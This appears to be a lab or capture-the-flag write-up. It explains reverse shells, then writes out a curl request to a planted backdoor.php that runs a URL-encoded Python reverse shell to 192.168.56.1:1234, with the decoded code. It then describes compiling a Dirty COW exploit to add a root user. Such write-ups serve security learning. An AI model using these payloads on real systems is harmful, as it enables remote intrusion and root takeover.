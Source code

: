 # writeup 2

We have to do in the same way as in **writeup1** until using **curl** tool))

After doing that we have an incredible way to get the control of the root

**REVERS SHELL**

A reverse shell is a type of network connection where an attacker gains control of a target machine by initiating a connection from the target to the attacker's machine. In a typical shell attack (standard shell), the attacker directly connects to the target machine. However, in a reverse shell, the roles are reversed: the target system initiates the connection to the attacker's system

Do not be scared, everything is done for educational purposes)

<img src="img/photo_5435923932709510476_y.jpg">

here is the encrepted code of it 

```
curl --insecure 'https://192.168.56.101/forum/templates_c/backdoor.php?cmd=python%20-c%20%27import%20socket%2Csubprocess%2Cos%2Cpty%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22192.168.56.1%22%2C1234%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dpty.spawn%28%22%2Fbin%2Fbash%22%29%3B%27'
```

Don't be scared 2, this is just an url encode python code of this

```
import socket, subprocess, os, pty;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("192.168.56.1",1234));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1); 
os.dup2(s.fileno(),2);
p=pty.spawn("/bin/bash");
```

You can simply write on your own code then just seach on Google **url encoder** and translate to this

We have done this to get a reverse shell and execute cmd on server,

So, now we need some kind of kernel exploit to have a root

On this picture you can see cmds and potential issues.

<img src="img/photo_5435923932709510484_y.jpg">

If you see exact same thing, Congratulations!!!🥳 you also got an error🆘😅
This shows that curl did not work properly -> to fix it do this

```
cat > dirty.c << end
# and we gonna copy code here
```

<img src="img/photo_5435923932709510485_y.jpg">

Then we commpiled it via this and run

```
gcc dirty.c -o dirty -pthread -lcrypt
./dirty.c
```
we entered the new password

AAAAANNNNNNDDDDDD that's it we have done it🚨
Check **/etc/passwd** to see if the new user was created.
You can log in with the username 'firefart' and the password 'gago'

You can also use **id** to check that it is root as id is 0
